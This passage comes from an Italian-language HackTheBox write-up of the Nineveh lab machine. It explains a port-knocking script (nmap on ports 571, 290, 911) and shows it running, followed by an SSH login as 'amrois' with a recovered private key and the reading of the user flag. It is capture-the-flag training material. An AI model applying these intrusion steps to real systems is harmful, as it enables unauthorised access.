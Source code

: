 
1. Il loop "for" viene utilizzato per iterare su una lista di numeri di porta: 571, 290 e 911.
2. Per ogni iterazione del loop, viene eseguito il comando "nmap" per effettuare una scansione di porto sull'indirizzo IP 10.10.10.43 utilizzando la porta corrente specificata dalla variabile ${i}.
    - La flag "-p" specifica la porta da scansionare.
    - La flag "--max-retries 0" imposta il numero massimo di tentativi di connessione a 0, quindi non verranno effettuati nuovi tentativi dopo un fallimento.
    - La flag "-Pn" disabilita la scansione del ping, in modo che nmap non effettui un ping prima di eseguire la scansione di porta.
3. Dopo l'iterazione del loop, viene eseguito il comando "ssh" per connettersi a 10.10.10.43 come utente "amrois", utilizzando il file di chiave privata "nineveh.priv".

Gli diamo i permessi di esecuzione e eseguiamo lo script

```bash
┌──(root㉿kali)-[/home/…/htb/nineveh/_nineveh.png.extracted/secret]
└─# chmod +x knock.sh
┌──(root㉿kali)-[/home/…/htb/nineveh/_nineveh.png.extracted/secret]
└─# ./knock.sh
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 08:30 EDT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 08:30 EDT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 08:30 EDT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Fri Jun 23 07:25:14 2023 from 10.10.14.34
amrois@nineveh:~$ id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
amrois@nineveh:~$ cat user.txt 
b8484d4a5054ee7e11abb5595d404d7a
```
